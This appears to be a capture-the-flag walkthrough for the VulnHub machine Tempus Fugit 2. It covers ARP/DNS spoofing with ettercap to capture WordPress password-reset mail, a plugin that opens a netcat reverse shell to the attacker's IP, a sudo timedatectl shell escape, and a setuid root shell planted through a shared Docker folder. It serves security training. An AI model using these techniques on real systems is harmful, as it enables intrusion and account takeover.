<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/tempus-fugit_2,364/">Tempus Fugit 2</a>
  <br>
</h1>

<h4 align="center"> Author:
    <a href="https://twitter.com/4nqr34z"> 4nqr34z</a>
</h4>


## Nmap



Let's start with HTTP service.

***

## HTTP



It's a wordpress website. So let's start wpscan there was no vulnerabilities. All I found were 2 users:



We(I and [@theart42](https://twitter.com/theart42) tried all sorts of things like running gobuster on the website, bruteforcing password for user `admin` and `tommy`. Then we decided to run `wireshark` to see if we VM is sending out some data but unfortunately it wasn't. Then [@4ndr34z](https://twitter.com/4nqr34z) said that wireshark is the right way but `You “trigger” it from WP`. So meaning that we'll be able to see some data in wireshark if we can trigger an event through WP.

The two possible things that we could trigger from WP was either submitting a `comment` or `reseting the password` for existing users.
Submitting the Comment didn't gave anything. But when we tried to reset the password for `admin` user we can see a suspicious DNS request.



`smtp.tempusfugit2.com`

__Ignore all the debian DNS__

__NOTE__: I saw the DNS requests because my machine also was on my gateway. If it's different in your case then don't worry. Just go on and perform the MiTM with ettercap and then you'll see DNS request.



So during submitting request for `forgot password` we are seeing a DNS for smtp meaning it's looking for a name and possibly might be sending some data.

We can try to dns spoof it to see if it's sending any data or not. To do so we'll have to configure lot of things.

* Let's start with `ettercap`

You shoud open `/etc/ettercap/etter.dns` file and add the following section to it

```
## Vulnhub

*.tempusfugit2.com      A       192.168.184.1
*.tempusfugit2.com.localdomain      A       192.168.184.1
```

Here the IP is your machine IP.

* Run

```
➜ sudo python -m smtpd -n -c DebuggingServer 192.168.184.1:25
```

This will start a SMTP server. We are running this because we'll be spoofing the dns request and will receive whatever is sent via SMTP.

The IP in `etter.dns` will have to be same of that used for running python SMTP server

* Then start  `ettercap`  and do the following:
    - `ctrl+u` - start unified sniffing
    - `ctrl+shift+t` - Select target and in this you'll get options to put IP address of any 2 target. In `target2` put the IP address of `DNS` server of the same subnet on which the TempusFugit machine is running.
    - Now go to `Mitm -> arp spoofing -> sniff remote connection`
    - Go to `manage plugin` and choose `dns_spoof`

Now you are all set, go to `IP/wp-login.php` click on `forgot password` and when asked for name/email enter `admin`. You would see spoofing logs in `ettercap` something like:



and On the terminal tab where we ran the `fake smtp` you should see



We have received a URL to reset the password. We'll use this to reset `admin` uer password.



`xqFN(v%)rrihKz*8`

Once you submit request for changing the password you would again see some data on your `SMTP` server.



Since the password is reset we can log in as `admin`



***

I tried getting reverse shell by editing the theme but PHP couldn't be updated via WP so I used the custom plugin made by [@DCAU7](https://twitter.com/dcau7)

```php
<?php
  /*
  Plugin name: MyNetcat
  Description: MyNetcat WordPress Plugin
  Author: DCAU
  Author URI: http://www.five86.com
  Version: 1.0
  */

register_activation_hook( __FILE__, 'mynetcat_activation' );
  function mynetcat_activation() {
    system("nc -e /bin/sh 192.168.1.107 4444");
  }
```

Now place this file in a folder named `mynetcat` and then compress it to a zip file.After that go to `plugin -> add new ` on wordpress. Now click on `upload plugin` and then select the zip. Before you activate that plugin make sure you have started your listener i.e `nc -nlvp PORT`. After that just activate the plugin and you'll get the shell.



Now I had a reverse shell but I couldn't spwan the TTY shell. I started looking around and there was nothing in `/home` so basically this mean we are inside a container just like TempusFugit-1.

After looking in the `/var/www/html` I found some kind of credentials in `nb.txt` file.



`sada:9s4lw0r82cs5`

I spent sometime looking around to actually understand what these credentials were for but couldn't find anything. But then I looked in `wordpress` posts and found there was `private` post.



When we open it we kinda get a hint of `OSINT` thing.



I googled `jenny number` and found the song



The song was released in `1981` and it's name is `867 5309` so this mean we need to do port knocking on `1981 867 5309` and after that do nmap scan again to see what new port opens up.



No new port opens but now SSH Seems accesible, meaning we can use `sada` user and his password to login via SSH.



***

## Horizontal Privilege Escalation

First I got the user flag.


Them I ran `sudo -l` and found out that `sada` can run `timedatectl` as `migdalia`.


We can escalate our privilege to `migdalia` by running

`sudo -u migdalia timedatectl list-timezone` and then doing `!/bin/bash`



***

## Lateral Privilege Escalation

I tried lot of thing but couldn't figure out a way to find any vector to escalate privileges. Then [@4ndr34z](https://twitter.com/4nqr34z) gave hint to try to do dictionary attack for `migdalia`.



Since we have the password I did `sudo -l` and found out that `migdalia` can run `/usr/bin/docker exec *`



and we can see a file named `list` which contains information about the dockers.



Currently we have access to `/root` but we cannot run `proof.sh` but the interesting part is that in `/root` there is another directory named `wp` and there is another directory named `wp-content`. In the list we have a container with ID `1786dd63dedb` that is having wordpress.

Run `sudo docker exec -it 1786dd63dedb bash` to get shell on that container as root.



The good thing is there is also `wp-content/TFDocument` folder. So I made a suid by compiling the following code

```c
int main(void) {
       setgid(0); setuid(0);
       execl("/bin/sh","sh",0);
}
```

And then tranferedthis binary to the container and did `chmod 4755 suid`



Now exit the container and go to `/root/wp-content/TFDocuments` and you'll see that suid. This means that docker is sharing a directory with the main system and that is the reason we'll be able to escalate our privileges.



This is because the the same folder/files were shared on host and docker.


And now run `proof.sh` in `/root`



***

This machine was on a whole new level. Everything we had to do was very new for me. It really taught me lot of things.

Thank to [@4ndr34z](https://twitter.com/4nqr34z) for making this awesome machine.

Thanks to [@DCAU7](https://twitter.com/DCAU7) and [@theart42](https://twitter.com/theart42) for helping me solve this box.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
